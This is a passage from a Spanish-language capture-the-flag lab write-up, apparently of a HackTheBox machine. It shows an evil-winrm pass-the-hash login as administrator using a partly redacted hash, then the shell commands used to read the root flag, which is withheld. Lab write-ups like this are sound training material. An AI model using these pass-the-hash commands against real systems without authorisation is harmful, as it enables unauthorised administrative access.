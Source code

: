 > **Valor de la Flag:** `<Averiguelo usted mismo>`

Con esto ya solo queda usar evil-winrm con el hash de administrator y entrar sin complicaciones.
~~~powershell
evil-winrm -i 10.10.11.202 -u administrator -H 'a52<SNIP>4ee'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
~~~
Para ahora solamente leer el root.txt
~~~powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd desktop
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
<ENCUENTRE SU PROPIA ROOT FLAG>
~~~
🎉 Sistema completamente comprometido - Root obtenido

